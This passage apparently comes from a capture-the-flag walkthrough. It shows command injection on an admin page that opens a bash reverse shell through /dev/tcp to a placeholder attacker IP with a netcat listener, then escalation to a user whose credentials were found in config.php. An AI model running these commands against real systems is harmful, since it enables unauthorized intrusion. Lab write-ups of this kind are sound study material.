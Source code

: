 ```bash
# start listener on attacker
nc -nvlp 4444

# on admin page (in injection field)
&& bash -c "bash -i >& /dev/tcp/<ATTACK_IP>/4444 0>&1"
```

Got a shell as the web user.      
Screenshot:      
![Command\_inject](screenshots/hijack_CI.png)

---

## www-data → rick

Found `config.php` with credentials for `rick`. Get a proper TTY, and `su`:

```bash
python3 -c "import pty; pty.spawn('/bin/bash')"
su rick
```

Screenshot:
![config.php](screenshots/hijack_config.png)

---
